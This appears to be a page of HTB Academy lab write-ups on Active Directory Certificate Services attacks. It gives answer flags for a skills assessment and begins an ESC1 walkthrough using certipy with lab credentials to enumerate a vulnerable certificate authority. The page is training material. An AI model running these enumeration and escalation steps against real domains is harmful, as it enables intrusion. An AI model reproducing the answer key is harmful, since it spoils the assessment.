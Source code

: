| Skills Assessment           | Question 1      | HTB{C3r7IFic47e\_F7W}                          |
| Skills Assessment           | Question 2      | jimmy\_001                                     |
| Skills Assessment           | Question 3      | HTB{C0mprOm1s3d\_D0ma1n}                       |

### Acronyms Used in Writeups

| Acronym | Meaning                                                 |
| ------- | ------------------------------------------------------- |
| STMIP   | Spawned Target Machine IP Address                       |
| STMPO   | Spawned Target Machine Port                             |
| PMVPN   | Personal Machine with a Connection to the Academy's VPN |
| PWNIP   | Pwnbox IP Address (or PMVPN IP Address)                 |
| PWNPO   | Pwnbox Port (or PMVPN Port)                             |

## ESC1

### Question 1

#### "Abuse the ESC1 misconfiguration and submit the Administrator's NT hash."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC1` template suffers from the `ESC1` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
    DNS Name                            : LAB-DC.lab.local
    Certificate Subject                 : CN=lab-LAB-DC-CA, DC=lab, DC=local
    Certificate Serial Number           : 16BD1CE8853DB8B5488A16757CA7C101
    Certificate Validity Start          : 2022-03-26 00:07:46+00:00
    Certificate Validity End            : 2027-03-26 00:17:46+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
<SNIP>
```
